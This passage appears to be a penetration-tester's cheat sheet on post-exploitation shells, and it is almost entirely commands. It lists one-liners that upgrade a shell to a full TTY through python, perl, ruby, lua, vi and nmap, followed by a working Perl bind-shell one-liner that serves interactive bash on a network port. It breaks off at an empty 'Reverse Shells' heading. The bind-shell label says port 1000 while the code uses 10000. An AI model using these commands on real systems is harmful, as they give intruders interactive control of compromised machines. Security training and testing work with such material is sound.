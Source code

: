 #### TTY Shells

http://pentestmonkey.net/blog/post-exploitation-without-a-tty

Upgrade your shell to a full TTY

```
    python -c 'import pty; pty.spawn("/bin/sh")'

    echo os.system('/bin/bash')

    /bin/sh -i

    perl —e 'exec "/bin/sh";'

    perl: exec "/bin/sh";

    ruby: exec "/bin/sh"

    lua: os.execute('/bin/sh')
```

(From within IRB)

```
    exec "/bin/sh"
```

(From within vi)

```
    :!bash
```

(From within vi)

```
    :set shell=/bin/bash:shell
```

(From within nmap)

```
    !sh
```

#### Bind Shells

https://github.com/infodox/exploits/blob/master/payloads/linux/perl.py

Perl Bind Shell (Port 1000)

```
    perl -e 'use Socket;$p=10000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S, SOMAXCONN);for(; $p= accept(C, S); close C) {open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/usr/bin/bash -i");};'
```

#### Reverse Shells
